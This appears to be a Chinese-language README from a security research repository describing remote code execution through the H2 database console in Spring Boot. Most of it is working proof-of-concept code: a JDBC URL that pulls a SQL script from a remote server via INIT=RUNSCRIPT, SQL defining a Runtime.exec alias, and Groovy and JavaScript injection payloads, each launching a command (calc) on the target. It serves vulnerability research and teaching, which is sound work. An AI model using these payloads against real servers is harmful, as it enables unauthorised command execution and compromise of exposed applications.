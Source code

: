 ## h2 databse attack

### 原理

在`SpringBoot`项目中存在有h2的console接口，可以改变JDBC's url达到攻击的目的

![image-20220807203742659](README/image-20220807203742659.png)

#### 条件

需要在配置文件中打开console功能

```yaml
server.port=8000
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

#### 分析

[戳这里](resource/RunScriptAnalysis.md)

### POC

#### RunScript

```java
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'
```

```sql
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);}';CALL EXEC ('calc')
```

#### Groovy

```java
public static void main(String[] args) throws ClassNotFoundException, SQLException {
    Class.forName("org.h2.Driver");
    String groovy = "@groovy.transform.ASTTest(value={" +
            " assert java.lang.Runtime.getRuntime().exec(\"calc\")" +
            "})" +
            "def x";
    String url = "jdbc:h2:mem:dbtest;MODE=MSSQLServer;init=CREATE ALIAS T5 AS '" + groovy + "'";
    Connection connection = DriverManager.getConnection(url);
    connection.close();
}
```

#### JavaScript

```java
public static void main(String[] args) throws ClassNotFoundException, SQLException {
    Class.forName("org.h2.Driver");
    String javaScript = "//javascript\njava.lang.Runtime.getRuntime().exec(\"calc\")";
    String url = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER hhhh BEFORE SELECT ON INFORMATION_SCHEMA.CATALOGS AS '"+ javaScript +"'";
    Connection connection = DriverManager.getConnection(url);
    connection.close();
}
```

